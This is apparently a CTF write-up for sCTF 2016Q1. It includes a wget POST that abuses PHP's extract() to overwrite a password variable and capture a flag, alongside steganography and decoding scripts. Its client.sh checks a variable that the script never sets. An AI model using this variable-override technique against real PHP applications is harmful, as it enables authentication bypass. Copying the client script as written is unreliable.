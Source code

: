 Title: Write-Up - sCTF.io - 2016Q1
Date: 2016-04-17 00:00
Modified: 2016-04-17 00:00
Category: CTF
Tags: ctf, write-up, sctf
Slug: writeup-sctf-2016q1
Authors: atcasanova
Summary: Write-Up do sCTF 2016Q1

#[Ducks](https://github.com/n00bsb/sctf/tree/master/2016q1/Ducks)

##[The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

Hint: If you've remember HSF, you'll know that The Ducks is unsolvable.


This one was quite easy: since it gave us the [source code of the page](http://ducks.sctf.michaelz.xyz/source.php) we could see that it uses the [PHP extract()](http://stackoverflow.com/questions/829407/what-is-so-wrong-with-extract) function.

Our goal was then to send a POST that would override the `thepassword_123` variable:


`wget -qO- --post-data="pass=abc&thepassword_123=abc" http://ducks.sctf.michaelz.xyz/`

and within the output, there it is:

```html
<h1>The Ducks</h1>
<div class="alert alert-success">
<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>
</div>
```
---
#[LenghtyLingo](https://github.com/n00bsb/sctf/blob/master/2016q1/LengthyLingo/README.md)
## Description:
Can you crack the code? We intercepted this flag but can't seem to figure out how it was encrypted.

The solution is quite simple. You have to count the length of each word, then convert its number to ascii.
I've came up with this one-liner:

```bash
sed 's/, /\n/g' encrypted.dat | while read i; do printf "\x$(printf %x ${#i})"; done
```
---
#[Rain Or Shine](https://github.com/n00bsb/sctf/tree/master/2016q1/RainOrShine)

This one we couldn't crack in time, mostly because I first found a JPEG signature which turned out to be just the thumbnail of the original image, what cost us a lot of time, and also because GIMP wouldn't open layered TIFFs. 

Because of this, we spent a lot of time trying to manually reassemble the QR Code, which was impossible since there were overlayed layers.

By the time I got access to a friend with Photoshop, the challenge was ended.

Cutting to the chase: Open the `rain.wav` file in your favourite hex editor (mine is bless). Keep digging until you find a TIFF header:

**49492a0008**

So what we'll have to do is cut the file from this header until the end: 

```bash
xxd -p rain.wav | tr -d '\n' | grep -Eo "49492a0008[0-9a-f]*" | xxd -r -p > file.tiff
```
and then open it with Photoshop (GIMP apparently has some issues managing layered TIFFs), where you can see four layers and easily rearrange them.

The result is a QRCode that you could read with your phone or using zbar-tools

---
#[Verticode](https://github.com/n00bsb/sctf/tree/master/2016q1/Verticode)
##Description:

Welcome to Verticode, the new method of translating text into vertical codes.

Each verticode has two parts: the color shift and the code.

The code takes the inputted character and translates it into an ASCII code, and then into binary, then puts that into an image in which each black pixel represents a 1 and each white pixel represents a 0.

For example, A is 65 which is 1000001 in binary, B is 66 which is 1000010, and C is 67 which is 1000011, so the corresponding verticode would look like this.

Except, it isn't that simple.

A color shift is also integrated, which means that the color before each verticode shifts the ASCII code, by adding the number that the color corresponds to, before translating it into binary. In that case, the previous verticode could also look like this.

The table for the color codes is:

| Value | Color |
| ----- | ----- |
| 0 | Red |
| 1 | Purple |
| 2 | Blue |
| 3 | Green |
| 4 | Yellow |
| 5 | Orange |

This means that a red color shift for the letter A, which is 65 + 0 = 65, would translate into 1000001 in binary; however, a green color shift for the letter A, which is 65 + 3 = 68, would translate into 1000100 in binary.

Given this verticode, read the verticode into text and find the flag.

Note that the flag will not be in the typical sctf{flag} format, but will be painfully obvious text. Once you find this text, you will submit it in the sctf{text} format. So, if the text you find is adunnaisawesome, you will submit it as sctf{adunnaisawesome}.

# decode.sh

```bash
#!/bin/bash
(( $# != 1 )) && { echo "please specify input file"; exit 1; }

# constants:
line_height=12
pixel_width=12
line_width=168
color_width=83

# convert png to txt using ImageMagick's convert
convert $1 txt: > out.txt
sed -i '1d' out.txt
lines=$(tail -1 out.txt | cut -f2 -d, | cut -f1 -d:)

# get just one line of pixels for each real line in the image
for (( i=0; i<$lines; i+=$line_height )); do 
	grep -E "^[0-9]*,$i: " out.txt ; 
done > lines.txt

# get just one pixel per needed column in the original image
>sane.txt
for i in $(cat lines.txt | cut -f2 -d, | cut -f1 -d: | sort -nu); do
	for (( j=$color_width; j<$line_width; j+=$pixel_width )); do 
		grep "^$j,$i: " lines.txt >> sane.txt
	done
done 

# each "line" in one line
cat sane.txt | tr -s ' ' | sed 's/, /,/g;s/( /(/g' | cut -f4 -d " " | xargs -L8 > end.txt

# black and white to binary
sed 's/ black/1/g;s/ white/0/g' end.txt | sed 's/^[a-z]*/\0 /g' >ideal.txt

# binary conversion, color conversion and mathematics, then print ascii code
paste -d-  <(for i in $(cat ideal.txt | cut -f2 -d" "); do echo $((2#$i)); done) ideal.txt > last.txt
for i in $(cat last.txt | cut -f1 -d" " | sed 's|red|0|g;s|purple|1|g;s|blue|2|g;s|green|3|g;s|yellow|4|g;s|orange|5|g'| bc); do 
	printf "\x$(printf %x $i)";
done
echo
```
## Running:
`chmod +x decode.sh`
then
`./decode.sh code1.png`

Sorry about the great number of temporary files, but I did this step by step on the shell :)

---
#[Vertinet](https://github.com/n00bsb/sctf/tree/master/2016q1/Vertinet)
#Description:
This problem follows the same specifications as the previous Verticode, except that you have to solve many of them by developing a client to communicate with the server available at problems1.2016q1.sctf.io:50000. Good luck.

#client.sh
```bash
start=0;
print=0;
while read -n1 char;
do
		(( $print == 1 )) && echo -n $char;
		if [ "$char" == "," ]; then
			start=1; continue;
 		fi
		if [ "$char" == "'" ]; then
			start=0;
		fi
		(( $abriu == 1)) && {
			resp+=$char; 
		}
		if (( ${#resp} > 1500 )) && (( $abriu == 0 )); then
			echo -n "${resp}" | base64 -d >/dev/null && {
				echo -n "${resp}" | base64 -d > file.png
				print=1;
				answer=$(../Verticode/decode.sh file.png)
				echo -n $answer >&4
				resp=
			} || print=0;
		fi
done <&3
```

## Running

`chmod +x client.sh`

then

`socat TCP4:problems1.2016q1.sctf.io:50000 EXEC:/full/path/to/client.sh,fdin=3,fdout=4`

Maybe you'll need to install `socat` first

---
